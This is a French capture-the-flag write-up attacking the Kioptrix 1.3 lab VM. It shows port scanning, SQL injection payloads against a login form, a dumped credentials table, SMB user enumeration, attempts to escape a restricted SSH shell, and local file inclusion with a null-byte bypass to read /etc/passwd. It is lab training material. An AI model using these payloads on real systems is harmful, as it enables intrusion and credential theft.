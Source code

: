 # Solution du CTF Kioptrix: 1.3 de VulnHub

Il est tant de boucler les *Kioptrix* existants avec ce [level 1.3](https://www.vulnhub.com/entry/kioptrix-level-13-4,25/) publié en février 2012.  

It's Gonna Be Alright
---------------------

```plain
Nmap scan report for 192.168.1.39
Host is up (0.00021s latency).
Not shown: 39524 closed ports, 26007 filtered ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 9b:ad:4f:f2:1e:c5:f2:39:14:b9:d3:a0:0b:e8:41:71 (DSA)
|_  2048 85:40:c6:d5:41:26:05:34:ad:f8:6e:f2:a7:6b:4f:0e (RSA)
80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
MAC Address: 08:00:27:91:F5:1F (Cadmus Computer Systems)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: KIOPTRIX4, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.28a)
|   Computer name: Kioptrix4
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: Kioptrix4.localdomain
|_  System time: 2018-02-14T05:23:21-05:00
| smb-security-mode: 
|   Account that was used for smb scripts: guest
|   User-level authentication
|   SMB Security: Challenge/response passwords supported
|_  Message signing disabled (dangerous, but default)
|_smbv2-enabled: Server doesn't support SMBv2 protocol
```

Sur la page d'index du site se trouve une mire de connexion dont le champ password est vulnérable à une faille SQL :  

```plain
[*] Lancement du module sql
---
Injection MySQL dans http://192.168.1.39/checklogin.php via une injection dans le paramètre mypassword
Evil request:
    POST /checklogin.php HTTP/1.1
    Host: 192.168.1.39
    Referer: http://192.168.1.39/
    Content-Type: application/x-www-form-urlencoded

    myusername=default&mypassword=%C2%BF%27%22%28&Submit=Login
---
```

On peut bypasser l'authentification en mettant par exemple l'utilisateur *admin* et *' or 1 #* comme password mais alors on obtient l'erreur suivante :  

```plain
Oups, something went wrong with your member's page account.
Please contact your local Administrator to fix the issue.
```

Regardons avec sqlmap ce que cette base de données a dans le ventre :  

```plain
---
Parameter: mypassword (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: myusername=admin&mypassword=-9510' OR 8773=8773#&Submit=Login

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: myusername=admin&mypassword=ddd' OR SLEEP(5)-- gvLi&Submit=Login
---
```

L'utilisateur utilisé est *root@localhost*, sans mot de passe.  

Il y a une table intéressante :  

```plain
Database: members
Table: members
[2 entries]
+----+----------+-----------------------+
| id | username | password              |
+----+----------+-----------------------+
| 1  | john     | MyNameIsJohn          |
| 2  | robert   | ADGAdsafdfwt4gadfga== |
+----+----------+-----------------------+
```

Ce qui permet de s'authentifier comme *john* sur l'appli web... mais ça ne nous apporte rien de plus... si ce n'est nous dire qu'on est *john*.  

Une petite énumération SMB au cas où :  

```plain
msf auxiliary(smb_enumusers) > show options

Module options (auxiliary/scanner/smb/smb_enumusers):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS     192.168.1.39     yes       The target address range or CIDR identifier
   SMBDomain  .                no        The Windows domain to use for authentication
   SMBPass    MyNameIsJohn     no        The password for the specified username
   SMBUser    john             no        The username to authenticate as
   THREADS    1                yes       The number of concurrent threads

msf auxiliary(smb_enumusers) > exploit

[*] 192.168.1.39:139      - 192.168.1.39 KIOPTRIX4 [ nobody, robert, root, john, loneferret ] ( LockoutTries=0 PasswordMin=5 )
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Strength To Endure
------------------

Il y a un utilisateur *john* comme sur le site qui a bien sûr le même mot de passe :  

```plain
$  ssh john@192.168.1.39
john@192.168.1.39's password: 
Welcome to LigGoat Security Systems - We are Watching
== Welcome LigGoat Employee ==
LigGoat Shell is in place so you  don't screw up
Type '?' or 'help' to get the list of allowed commands
john:~$ ?
cd  clear  echo  exit  help  ll  lpath  ls
john:~$ ls -al
total 28
drwxr-xr-x 2 john john 4096 Feb  4  2012 .
drwxr-xr-x 5 root root 4096 Feb  4  2012 ..
-rw------- 1 john john   61 Feb  4  2012 .bash_history
-rw-r--r-- 1 john john  220 Feb  4  2012 .bash_logout
-rw-r--r-- 1 john john 2940 Feb  4  2012 .bashrc
-rw-r--r-- 1 john john  118 Feb 14 05:43 .lhistory
-rw-r--r-- 1 john john  586 Feb  4  2012 .profile
john:~$ cat .lhistory
*** unknown command: cat
john:~$ ll; cat .lhistory
*** forbidden syntax -> "ll; cat .lhistory"
*** You have 0 warning(s) left, before getting kicked out.
This incident has been reported.
john:~$ ls | cat .lhistory
*** forbidden syntax -> "ls | cat .lhistory"
*** Kicked out
Connection to 192.168.1.39 closed.
```

Hmmm drôle de shell. Et il semble que l'on ne puisse pas le bypasser :  

```plain
$ ssh john@192.168.1.39 -C /bin/bash
john@192.168.1.39's password: 
*** forbidden path over SSH: "/bin/bash"
This incident has been reported.
$ scp backdoor.php john@192.168.1.39:/tmp/
john@192.168.1.39's password: 
*** forbidden path over SSH: "scp -t /tmp/"
This incident has been reported.
lost connection
```

J'ai choisi de retourner sur le site et d'utiliser le module *buster* de *Wapiti* :  

```plain
[*] Lancement du module buster
Found webpage http://192.168.1.39/images/
Found webpage http://192.168.1.39/index
Found webpage http://192.168.1.39/logout.php
Found webpage http://192.168.1.39/member
Found webpage http://192.168.1.39/logout
Found webpage http://192.168.1.39/member.php
Found webpage http://192.168.1.39/john/
Found webpage http://192.168.1.39/database.sql
Found webpage http://192.168.1.39/john/john
```

En se rendant sur ces pages on comprend que */john/john* est en réalité */john/john.php* qui est la page affichée une fois que l'on est identifié...  

L'utilisateur *robert* a aussi sa page *robert/robert.php*.  

L'URL de la page quand on est connecté est du type */member.php?username=nom\_de\_l\_utilisateur* ce qui laisse supposer que *member.php* fait une inclusion de *$user/$user.php*.  

Si on saisie l'adresse */member.php?username=/etc/passwd* on obtient le message *User //passwd* comme si le *etc* avait été retiré...  

Ce qui se confirme avec l'adresse */member.php?username=/etetcc/passwd*  

```plain
Warning: include(/etc/passwd//etc/passwd.php) [function.include]: failed to open stream: Not a directory in /var/www/member.php on line 14

Warning: include() [function.include]: Failed opening '/etc/passwd//etc/passwd.php' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/member.php on line 14
```

 Il ne reste plus qu'à se débarrasser du doublon avec */member.php?username=/etetcc/passwd%00* et là bingo:  


*Published February 22 2018 at 18 03*